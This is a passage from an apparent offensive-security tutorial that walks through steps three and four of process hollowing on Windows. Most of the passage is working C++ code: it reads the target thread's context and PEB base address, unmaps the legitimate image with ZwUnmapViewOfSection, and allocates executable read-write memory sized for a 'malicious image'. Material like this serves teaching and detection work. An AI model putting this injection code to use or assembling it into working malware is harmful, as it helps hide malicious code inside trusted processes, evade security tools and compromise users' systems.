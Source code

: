3. Un-map legitimate code from process memory. At step three, the process must be “hollowed” by un-mapping memory. Before un-mapping can occur, we must identify the parameters of the API call. We need to identify the location of the process in memory and the entry point. The CPU registers `EAX` (entry point), and `EBX` (PEB location) contain the information we need to obtain; these can be found by using `GetThreadContext`. Once both registers are found, `ReadProcessMemory` is used to obtain the base address from the `EBX` with an offset (`0x8`), obtained from examining the PEB.

```cpp
c.ContextFlags = CONTEXT_INTEGER; // Only stores CPU registers in the pointer
GetThreadContext(
	target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
	&c // Pointer to store retrieved context
); // Obtains the current thread context

PVOID pTargetImageBaseAddress; 
ReadProcessMemory(
	target_pi->hProcess, // Handle for the process obtained from the PROCESS_INFORMATION structure
	(PVOID)(c.Ebx + 8), // Pointer to the base address
	&pTargetImageBaseAddress, // Store target base address 
	sizeof(PVOID), // Bytes to read 
	0 // Number of bytes out
);
```

After the base address is stored, we can begin un-mapping memory. We can use `ZwUnmapViewOfSection` imported from _ntdll.dll_ to free memory from the target process.

```cpp
HMODULE hNtdllBase = GetModuleHandleA("ntdll.dll"); // Obtains the handle for ntdll
pfnZwUnmapViewOfSection pZwUnmapViewOfSection = (pfnZwUnmapViewOfSection)GetProcAddress(
	hNtdllBase, // Handle of ntdll
	"ZwUnmapViewOfSection" // API call to obtain
); // Obtains ZwUnmapViewOfSection from ntdll

DWORD dwResult = pZwUnmapViewOfSection(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress // Base address of the process
);
```

4. Allocate memory locations for malicious code and write each section into the address space. At step four, we must begin by allocating memory in the hollowed process. We can use `VirtualAlloc` similar to _step two_ to allocate memory. This time we need to obtain the size of the image found in file headers. `e_lfanew` can identify the number of bytes from the DOS header to the PE header. Once at the PE header, we can obtain the `SizeOfImage` from the Optional header.

```cpp
PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)pMaliciousImage; // Obtains the DOS header from the malicious image
PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew); // Obtains the NT header from e_lfanew

DWORD sizeOfMaliciousImage = pNTHeaders->OptionalHeader.SizeOfImage; // Obtains the size of the optional header from the NT header structure

PVOID pHollowAddress = VirtualAllocEx(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress, // Base address of the process
	sizeOfMaliciousImage, // Byte size obtained from optional header
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x40 // Enabled execute and read/write access (PAGE_EXECUTE_READWRITE)
);
```
